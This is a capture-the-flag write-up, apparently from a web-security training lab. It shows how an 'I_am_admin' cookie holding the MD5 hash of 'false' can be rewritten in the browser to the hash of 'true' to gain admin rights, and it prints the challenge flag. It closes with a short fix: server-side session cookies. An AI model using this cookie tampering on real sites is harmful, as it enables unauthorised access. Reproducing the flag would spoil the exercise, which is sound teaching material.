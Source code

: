 # ADMIN COOKIE

## The flag

```
THE FLAG IS : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3
```

## How to find it ?

On the page http://10.12.1.121/

See cookie with document.cookie (= "I_am_admin=68934a3e9455fa72420237eb05902327")
68934a3e9455fa72420237eb05902327 -> md5 -> false
true -> md5 -> b326b5062b2f0e69046810717534cb09

```
document.cookie = "I_am_admin=b326b5062b2f0e69046810717534cb09"
```
Refresh page

## How to use it ?

Become admin of the website

## How to avoid it ?

Use session cookie so it will be only editable in the back